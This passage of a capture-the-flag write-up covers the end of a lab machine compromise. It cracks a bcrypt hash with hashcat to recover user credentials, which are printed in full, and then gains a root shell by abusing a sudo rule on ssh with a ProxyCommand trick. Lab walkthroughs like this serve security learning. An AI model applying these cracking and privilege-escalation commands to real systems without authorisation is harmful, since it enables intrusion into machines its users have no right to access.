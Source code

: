 I'll now crack `admin` hash using **Hashcat** (which seems to be using bcrypt):
- Check [Crack Password Hashes (Sites) 🤡](/notes/crack_password_hashes.md)

```shell
hashcat -m 3200 -a 0 -o cracked.txt hashes.txt /usr/share/wordlists/rockyou.txt

$2a$10$SpKYdHLB0FOaT7n3x72wtuS0yR8uqqbNNpIPjUb2MZib3H9kVO8dm:manchesterunited
```

> We finally got user creds :D `josh:manchesterunited`

### User flag

![](Pasted%20image%2020250208224835.png)

## Privilege Escalation

If we check for sudo privileges:

```shell
sudo -l

[redacted]
(root) /usr/bin/ssh *
```

So searching over the internet we find this bypass at [GTFOBins](https://gtfobins.github.io/gtfobins/ssh/):

```shell
sudo ssh -o ProxyCommand=';sh 0<&2 1>&2' x
```

![](Pasted%20image%2020250208225229.png)

### Root flag

![](Pasted%20image%2020250208225245.png)

==Machine pwned!==

